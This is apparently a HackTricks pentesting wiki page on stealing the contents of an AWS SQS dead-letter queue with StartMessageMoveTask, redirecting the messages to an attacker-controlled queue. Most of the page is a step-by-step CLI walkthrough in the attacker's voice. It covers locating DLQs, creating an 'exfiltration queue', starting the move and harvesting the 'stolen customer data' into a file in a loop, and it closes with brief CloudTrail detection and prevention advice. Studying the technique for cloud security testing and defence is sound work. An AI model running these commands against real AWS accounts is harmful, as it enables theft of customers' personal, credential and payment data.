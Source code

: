 # AWS – SQS DLQ Redrive Exfiltration via StartMessageMoveTask

{{#include ../../../../banners/hacktricks-training.md}}

## Description

Abuse SQS message move tasks to steal all accumulated messages from a victim's Dead-Letter Queue (DLQ) by redirecting them to an attacker-controlled queue using `sqs:StartMessageMoveTask`. This technique exploits AWS's legitimate message recovery feature to exfiltrate sensitive data that has accumulated in DLQs over time.

## What is a Dead-Letter Queue (DLQ)?

A Dead-Letter Queue is a special SQS queue where messages are automatically sent when they fail to be processed successfully by the main application. These failed messages often contain:
- Sensitive application data that couldn't be processed
- Error details and debugging information  
- Personal Identifiable Information (PII)
- API tokens, credentials, or other secrets
- Business-critical transaction data

DLQs act as a "graveyard" for failed messages, making them valuable targets since they accumulate sensitive data over time that applications couldn't handle properly.

## Attack Scenario

**Real-world example:**
1. **E-commerce application** processes customer orders through SQS
2. **Some orders fail** (payment issues, inventory problems, etc.) and get moved to a DLQ
3. **DLQ accumulates** weeks/months of failed orders containing customer data: `{"customerId": "12345", "creditCard": "4111-1111-1111-1111", "orderTotal": "$500"}`
4. **Attacker gains access** to AWS credentials with SQS permissions
5. **Attacker discovers** the DLQ contains thousands of failed orders with sensitive data
6. **Instead of trying to access individual messages** (slow and obvious), attacker uses `StartMessageMoveTask` to bulk transfer ALL messages to their own queue
7. **Attacker extracts** all historical sensitive data in one operation

## Requirements
- The source queue must be configured as a DLQ (referenced by at least one queue RedrivePolicy).
- IAM permissions (run as the compromised victim principal):
  - On DLQ (source): `sqs:StartMessageMoveTask`, `sqs:GetQueueAttributes`.
  - On destination queue: permission to deliver messages (e.g., queue policy allowing `sqs:SendMessage` from the victim principal). For same-account destinations this is typically allowed by default.
  - If SSE-KMS is enabled: on source CMK `kms:Decrypt`, and on destination CMK `kms:GenerateDataKey`, `kms:Encrypt`.

## Impact
**Potential Impact**: Exfiltrate sensitive payloads accumulated in DLQs (failed events, PII, tokens, application payloads) at high speed using native SQS APIs. Works cross-account if the destination queue policy allows `SendMessage` from the victim principal.

## How to Abuse

- Identify the victim DLQ ARN and ensure it is actually referenced as a DLQ by some queue (any queue is fine).
- Create or choose an attacker-controlled destination queue and get its ARN.
- Start a message move task from the victim DLQ to your destination queue.
- Monitor progress or cancel if needed.

### CLI Example: Exfiltrating Customer Data from E-commerce DLQ

**Scenario**: An attacker has compromised AWS credentials and discovered that an e-commerce application uses SQS with a DLQ containing failed customer order processing attempts.

1) **Discover and examine the victim DLQ**

```bash
# List queues to find DLQs (look for names containing 'dlq', 'dead', 'failed', etc.)
aws sqs list-queues --queue-name-prefix dlq

# Let's say we found: https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq
VICTIM_DLQ_URL="https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq"
SRC_ARN=$(aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Check how many messages are in the DLQ (potential treasure trove!)
aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" \
  --attribute-names ApproximateNumberOfMessages
# Output might show: "ApproximateNumberOfMessages": "1847" 
```

2) **Create attacker-controlled destination queue**

```bash
# Create our exfiltration queue
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name hacker-exfil-$(date +%s) --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

echo "Created exfiltration queue: $ATTACKER_Q_ARN"
```

3) **Execute the bulk message theft**

```bash
# Start moving ALL messages from victim DLQ to our queue
# This operation will transfer thousands of failed orders containing customer data
echo "Starting bulk exfiltration of $SRC_ARN to $ATTACKER_Q_ARN"
TASK_RESPONSE=$(aws sqs start-message-move-task \
  --source-arn "$SRC_ARN" \
  --destination-arn "$ATTACKER_Q_ARN" \
  --max-number-of-messages-per-second 100)

echo "Move task started: $TASK_RESPONSE"

# Monitor the theft progress
aws sqs list-message-move-tasks --source-arn "$SRC_ARN" --max-results 10
```

4) **Harvest the stolen sensitive data**

```bash
# Receive the exfiltrated customer data
echo "Receiving stolen customer data..."
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
  --attribute-names All --message-attribute-names All \
  --max-number-of-messages 10 --wait-time-seconds 5

# Example of what an attacker might see:
# {
#   "Body": "{\"customerId\":\"cust_12345\",\"email\":\"john@example.com\",\"creditCard\":\"4111-1111-1111-1111\",\"orderTotal\":\"$299.99\",\"failureReason\":\"Payment declined\"}",
#   "MessageId": "12345-abcd-6789-efgh"
# }

# Continue receiving all messages in batches
while true; do
  MESSAGES=$(aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
    --max-number-of-messages 10 --wait-time-seconds 2 --output json)
  
  if [ "$(echo "$MESSAGES" | jq '.Messages | length')" -eq 0 ]; then
    echo "No more messages - exfiltration complete!"
    break
  fi
  
  echo "Received batch of stolen data..."
  # Process/save the stolen customer data
  echo "$MESSAGES" >> stolen_customer_data.json
done
```

### Cross-account notes
- The destination queue must have a resource policy allowing the victim principal to `sqs:SendMessage` (and, if used, KMS grants/permissions).

## Why This Attack is Effective

1. **Legitimate AWS Feature**: Uses built-in AWS functionality, making it hard to detect as malicious
2. **Bulk Operation**: Transfers thousands of messages quickly instead of slow individual access
3. **Historical Data**: DLQs accumulate sensitive data over weeks/months
4. **Under the Radar**: Many organizations don't monitor DLQ access closely
5. **Cross-Account Capable**: Can exfiltrate to attacker's own AWS account if permissions allow

## Detection and Prevention

### Detection
Monitor CloudTrail for suspicious `StartMessageMoveTask` API calls:
```json
{
  "eventName": "StartMessageMoveTask",
  "sourceIPAddress": "suspicious-ip",
  "userIdentity": {
    "type": "IAMUser",
    "userName": "compromised-user"
  },
  "requestParameters": {
    "sourceArn": "arn:aws:sqs:us-east-1:123456789012:sensitive-dlq",
    "destinationArn": "arn:aws:sqs:us-east-1:attacker-account:exfil-queue"
  }
}
```

### Prevention
1. **Least Privilege**: Restrict `sqs:StartMessageMoveTask` permissions to only necessary roles
2. **Monitor DLQs**: Set up CloudWatch alarms for unusual DLQ activity
3. **Cross-Account Policies**: Carefully review SQS queue policies allowing cross-account access
4. **Encrypt DLQs**: Use SSE-KMS with restricted key policies
5. **Regular Cleanup**: Don't let sensitive data accumulate in DLQs indefinitely

{{#include ../../../../banners/hacktricks-training.md}}

